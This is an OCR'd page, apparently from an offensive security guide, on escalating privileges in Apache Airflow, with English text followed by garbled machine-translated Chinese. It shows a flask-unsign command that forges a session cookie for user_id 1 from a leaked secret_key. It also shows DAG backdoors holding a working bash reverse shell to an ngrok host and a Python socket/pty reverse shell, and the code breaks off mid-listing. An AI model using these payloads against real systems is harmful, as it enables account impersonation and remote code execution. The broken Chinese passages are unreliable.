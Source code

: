 ***每个dag的代码**（可能包含有趣的信息）

## Privilege Escalation

##特权升级

If the **`expose_config`** configuration is set to **True**, from the **role User** and **upwards** can **read** the **config in the web**. In this config, the **`secret_key`** appears, which means any user with this valid they can **create its own signed cookie to impersonate any other user account**.

如果** expose_config` **配置设置为** true **，则从**角色user **和**向上**可以**可以**读** ** the ** the ** the ** config **。 在此配置中，出现**`secret_key` **，这意味着任何有效的用户都可以**创建自己的签名cookie，以模仿任何其他用户帐户**。

```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```

## DAG Backdoor (RCE in Airflow worker)

## DAG Backdoor（气流工人中的RCE）

If you have **write access** to the place where the **DAGs are saved**, you can just **create one** that will send you a **reverse shell.**\

如果您有**写入访问**到保存** dag的地方**，则可以**创建一个**，它将向您发送**反向外壳。** \ \
Note that this reverse shell is going to be executed inside an **airflow worker container**:

请注意，此反向外壳将在**气流工具容器**内执行。

```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
    dag_id='rev_shell_bash',
    schedule_interval='0 0 * * *',
    start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
    run = BashOperator(
        task_id='run',
        bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
    )
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
    s = socket.socket()
    s.connect((rhost, port))
    [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
    pty.spawn("/bin/sh")

with DAG(
    dag_id='rev_shell_python',
    schedule_interval='0 0 * * *',
    start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
    run = PythonOperator(
        task_id='rs_python',
```